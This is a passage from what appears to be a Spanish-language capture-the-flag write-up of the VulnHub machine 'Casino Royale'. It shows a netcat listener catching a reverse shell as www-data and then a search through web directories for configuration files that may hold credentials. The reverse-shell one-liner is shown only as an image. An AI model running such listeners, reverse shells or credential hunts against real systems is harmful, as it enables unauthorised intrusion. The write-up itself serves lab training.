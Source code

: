 <img src="/assets/VH/CasinoRoyale/rce.png">

En este punto nos ponemos en escucha en el puerto 443 con netcat y ejecutamos oneliner para entablarnos una revserse shell

<img src="/assets/VH/CasinoRoyale/shell.png">

```bash
❯ sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [192.168.1.145] from (UNKNOWN) [192.168.1.147] 38846
bash: cannot set terminal process group (726): Inappropriate ioctl for device
bash: no job control in this shell
www-data@casino:/var/www/html/ultra-access-view$
```

### Movimiento Lateral

* * *

Enumerando archivos de configuración localizamos `config.inc.php`

```bash
www-data@casino:/var/www/html$ find -name \*config\* 2>/dev/null
./ultra-access-view/.config
./vip-client-portfolios/config.inc.php
./vip-client-portfolios/languages/zh-cn/installer/controllers/setconfigurations.ini
./vip-client-portfolios/languages/zh-cn/installer/packages/system/controllers/components/configfileinstructions.ini
./vip-client-portfolios/languages/en-us/installer/controllers/setconfigurations.ini
./vip-client-portfolios/languages/en-us/installer/packages/system/controllers/components/configfileinstructions.ini
./vip-client-portfolios/modules/installer/controllers/setcustomconfigurations.class.php
./vip-client-portfolios/modules/installer/controllers/setconfigurations.class.php
./vip-client-portfolios/modules/installer/packages/system/controllers/components/configfileinstructions.class.php
./vip-client-portfolios/modules/installer/packages/system/views/components/configfileinstructions.view.php
./vip-client-portfolios/modules/core/config.class.php
./vip-client-portfolios/modules/system/libs/ckeditor/config.js
./vip-client-portfolios/modules/system/libs/ckeditor/build-config.js
./includes/config.php
./pokeradmin/configure.php
```

